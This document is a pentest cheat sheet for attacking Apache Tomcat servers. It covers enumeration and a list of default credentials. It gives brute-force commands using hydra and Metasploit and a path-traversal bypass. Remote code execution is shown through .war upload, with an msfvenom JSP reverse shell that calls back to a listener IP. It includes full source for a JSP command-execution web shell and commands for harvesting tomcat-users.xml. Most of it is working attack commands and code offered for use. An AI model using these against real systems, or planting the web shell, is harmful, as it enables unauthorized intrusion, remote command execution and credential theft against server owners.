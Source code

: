 # Pentest-Tomcat
![](RCE/tom.png)

## Enumeration
### Version
```bash
$ curl -s http://tomcat-site.local:8080/docs/ | grep Tomcat 

<html lang="en"><head><META http-equiv="Content-Type" content="text/html; charset=UTF-8"><link href="./images/docs-stylesheet.css" rel="stylesheet" type="text/css"><title>Apache Tomcat 9 (9.0.30) - Documentation Index</title><meta name="author" 
```
### Directory Discovery
To enumerate directories automatically, use fuzzing tools.
```bash
ffuf -u https://example.com/FUZZ -w directories.txt
ffuf -u https://example.com/host-manager/FUZZ -w 
ffuf -u https://example.com/manager/FUZZ -w directories.txt
```

### Locate manager files
It's interesting to find where are the pages `/manager` and `/host-manager` as they might have a different name. You can search them with a brute-force.

### Username Enum
In some versions prior to Tomcat6 you could enumerate users:
```bash
msf> use auxiliary/scanner/http/tomcat_enum
```
## Default credentials
```
admin:(empty)
admin:admin
admin:password
admin:password1
admin:Password1
admin:tomcat
manager:manager
root:changethis
root:password
root:password1
root:root
root:r00t
root:toor
tomcat:(empty)
tomcat:admin
tomcat:changethis
tomcat:password
tomcat:password1
tomcat:s3cret
tomcat:tomcat
```
You could test these and more using:
```bash
msf> use auxiliary/scanner/http/tomcat_mgr_login
```
## Bruteforce
```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```
```bash
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST tomacat-site.internal
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts <IP>
```
### Password backtrace disclosure
Try to access `/auth.jsp` and if you are very lucky it might disclose the password in a backtrace.

The following example scripts that come with Apache Tomcat v4.x - v7.x and can be used by attackers to gain information about the system. 
These scripts are also known to be vulnerable to cross site scripting (XSS) injection
```

    /examples/jsp/num/numguess.jsp
    /examples/jsp/dates/date.jsp
    /examples/jsp/snp/snoop.jsp
    /examples/jsp/error/error.html
    /examples/jsp/sessions/carts.html
    /examples/jsp/checkbox/check.html
    /examples/jsp/colors/colors.html
    /examples/jsp/cal/login.html
    /examples/jsp/include/include.jsp
    /examples/jsp/forward/forward.jsp
    /examples/jsp/plugin/plugin.jsp
    /examples/jsp/jsptoserv/jsptoservlet.jsp
    /examples/jsp/simpletag/foo.jsp
    /examples/jsp/mail/sendmail.jsp
    /examples/servlet/HelloWorldExample
    /examples/servlet/RequestInfoExample
    /examples/servlet/RequestHeaderExample
    /examples/servlet/RequestParamExample
    /examples/servlet/CookieExample
    /examples/servlet/JndiServlet
    /examples/servlet/SessionExample
    /tomcat-docs/appdev/sample/web/hello.jsp
```
### Path Traversal (..;/)
in some vulnerable configuration of tomcat ,you can gain access to protected directories in Tomcat using the path: `/..;/`

So, for example, you might be able to access the Tomcat manager page by accessing: www.vulnerable.com/lalala/..;/manager/html

Another way to bypass protected paths using this trick is to access http://www.vulnerable.com/;param=value/manager/html

## RCE
Finally, if you have access to the Tomcat Web Application Manager, you can upload and deploy a .war file (execute code).

### Metasploit way
```bash
use exploit/multi/http/tomcat_mgr_upload
msf exploit(multi/http/tomcat_mgr_upload) > set rhost <IP>
msf exploit(multi/http/tomcat_mgr_upload) > set rport <port>
msf exploit(multi/http/tomcat_mgr_upload) > set httpusername <username>
msf exploit(multi/http/tomcat_mgr_upload) > set httppassword <password>
msf exploit(multi/http/tomcat_mgr_upload) > exploit
```

### MSFVenom Reverse Shell
```bash
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.41 LPORT=80 -f war -o revshell.war
```
Then, upload the revshell.war file and access to it (/revshell/)

### Curl Way
```bash

$ curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"

$ curl "http://tomcat:Password@localhost:8080/manager/text/undeploy?path=/monshell"
```

## Manual method - Web shell
Create `index.jsp` with this content:
```jsp
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
   String cmd = request.getParameter("cmd");
   String output = "";
   if(cmd != null) {
      String s = null;
      try {
         Process p = Runtime.getRuntime().exec(cmd,null,null);
         BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
         while((s = sI.readLine()) != null) { output += s+"</br>"; }
      }  catch(IOException e) {   e.printStackTrace();   }
   }
%>
<pre><%=output %></pre>
```
now
```bash
$ mkdir webshell
$ cp index.jsp webshell
$ cd webshell
$ jar -cvf ../webshell.war *
# webshell.war is created
# Upload it
```

### Other ways to gather Tomcat credentials:
```bash
msf> use post/multi/gather/tomcat_gather
msf> use post/windows/gather/enum_tomcat
```

### Apache Tomcat - Cross-Site Scripting Scan
```bash
$ nuclei -u target  -t CVE-2019-0221.yaml
```
### Apache Tomcat Remote Command Execution Scan
```bash
$ nuclei -u target  -t CVE-2020-9484.yaml
```

### Investigation From Inside
If we are in the target system, we can retrieve information about credentials.
```bash
find / -name "tomcat-users.xml" 2>/dev/null
cat tomcat-users.xml
```

